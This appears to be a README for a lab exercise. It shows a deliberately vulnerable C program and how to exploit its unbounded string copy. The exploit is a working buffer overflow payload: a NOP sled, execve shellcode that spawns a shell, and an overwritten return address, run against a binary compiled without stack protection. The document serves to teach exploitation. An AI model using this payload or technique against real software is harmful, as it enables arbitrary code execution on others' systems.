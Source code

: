 # Description

A program with a bug making it susceptible to a buffer overflow attack.

# Exploiting the bug

1. Start the Vagrant VM
```bash
vagrant up
```
2. Login to the VM and compile the program with stack protection disabled and
debugging info included
```bash
vagrant ssh
cd /vagrant
gcc -m32 -ggdb -z execstack -fno-stack-protector -o vuln vuln.c
```
3. Run the program with malicious payload passed in as an argument
```bash
./vuln $(python -c 'print "\x90" * 480 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xbf\x70\xf7\xff" * 10')
```

# Explanation

The program accepts an argument and performs and un-bound string copy of that
argument into a 500-bytes long char buffer.

In order to exploit the bug, I've used a shellcode which starts a shell which I
downloaded from [this website](http://shell-storm.org/shellcode/files/shellcode-827.php).

I'm passing the shellcode as an argument to `vuln`:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

I've also created a "nop sled":

```python
print "\x90" * 480
```

And placed it before the malicious shellcode so that it's easier to "find" it.
It's enough for the return address to land anywhere within the sled and
the program will reach the shellcode.

The last part of the argument is a return address:

```python
print "\xbf\x70\xf7\xff" * 10
```

We've added it 10-times just to be sure the buffer is overflown enough to reach
the return address frame.
